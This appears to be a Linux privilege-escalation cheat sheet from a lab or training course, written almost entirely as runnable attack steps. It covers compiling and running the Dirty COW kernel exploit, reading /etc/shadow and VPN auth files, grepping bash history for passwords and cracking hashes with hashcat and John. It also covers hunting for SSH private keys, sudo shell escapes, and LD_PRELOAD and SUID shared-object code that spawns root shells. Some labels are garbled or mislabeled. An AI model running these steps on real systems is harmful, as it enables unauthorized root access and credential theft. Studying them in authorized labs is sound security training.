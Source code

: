 # Linux privesc

[ ] **Privilege Escalation - Kernel Exploits**
- Download `linux-exploit-suggester.sh` script: `/linux-exploit-suggester/linux-exploit-suggester.sh`
- Compile and run `dirtycow` exploit:
gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
./c0w
- Change password: `passwd`
- Check user privileges: `id`

**Privilege Escalation - Stored Passwords (Config Files)**
- View VPN configuration: `cat /home/user/myvpn.ovpn`
- Note the "auth-user-pass" directive value in the config.
- View OpenVPN auth file: `cat /etc/openvpn/auth.txt`
- Search for passwords in Irssi config: `cat /home/user/.irssi/config | grep -i passw`

**Privilege Escalation - Stored Passwords (History)**
- Search for passwords in bash history: `cat ~/.bash_history | grep -i passw`

**Privilege Escalation - Weak File Permissions**
- List shadow file permissions: `ls -la /etc/shadow`
- View `/etc/passwd` file: `cat /etc/passwd`
- View `/etc/shadow` file: `cat /etc/shadow`
- Unshadow password file: `unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt`
- Use hashcat to crack passwords: `hashcat -m 1800 unshadowed.txt rockyou.txt -O`

**Privilege Escalation - SSH Keys**
- Search for authorized_keys and id_rsa files:
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
- Set appropriate permissions on id_rsa: `chmod 600 id_rsa`
- Connect using SSH key: `ssh -i id_rsa root@<ip>`

**Privilege Escalation - Sudo (Shell Escaping)**
- List sudo permissions: `sudo -l`
- Perform one of the shell escaping techniques:
- Execute nano with a shell:
  ```
  sudo find /bin -name nano -exec /bin/sh \;
  ```
- Use `awk` to spawn a shell:
  ```
  sudo awk 'BEGIN {system("/bin/sh")}'
  ```
- Create an Nmap script for shell execution:
  ```
  echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
  ```
- Execute a shell through sudo vim:
  ```
  sudo vim -c '!sh'
  ```

**Privilege Escalation - Sudo (Abusing Intended Functionality)**
- List sudo permissions: `sudo -l`
- Exploit a program that doesn't exist in ctfobins:
sudo apache2 -f /etc/shadow
- Provide the pasted root hash and crack it with John the Ripper:
echo '[Pasted Root Hash]' > hash.txt
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt

**Privilege Escalation - Sudo (LD_PRELOAD)**
- List sudo permissions: `sudo -l`
- Create a shared object for privilege escalation:
1. Open a text editor and type x.c:
  ```
  #include <stdio.h>
  #include <sys/types.h>
  #include <stdlib.h>
  void _init() {
      unsetenv("LD_PRELOAD");
      setgid(0);
      setuid(0);
      system("/bin/bash");
  }
  ```
- Compile and load the shared object:
  ```
  gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
  sudo LD_PRELOAD=/tmp/x.so apache2
  ```

**Privilege Escalation - SUID (Shared Object Injection)**
- Find SUID binaries: `find / -type f -perm -04000 -ls 2>/dev/null`
- Trace the `suid-so` binary to locate missing .so file:
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
- Create a shared object for privilege escalation:
mkdir /home/user/.config
cd /home/user/.config
- Create and compile a shared object (libcalc.c):
  ```c
  #include <stdio.h>
  #include <stdlib.h>
  static void inject() __attribute__((constructor));
  void inject() {
      system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
  }
  ```
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c

- Run the SUID binary to escalate privileges:
  ```
  /usr/local/bin/suid-so
  ```

**Privilege Escalation - SUID (Symlinks)**
- Identify installed nginx version: `dpkg -l | grep nginx`
- Exploit a known vulnerability (CVE-2016-1247):
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log

- Restart the system to trigger the exploit: `invoke-rc.d nginx rotate >/dev/null 2>&1`
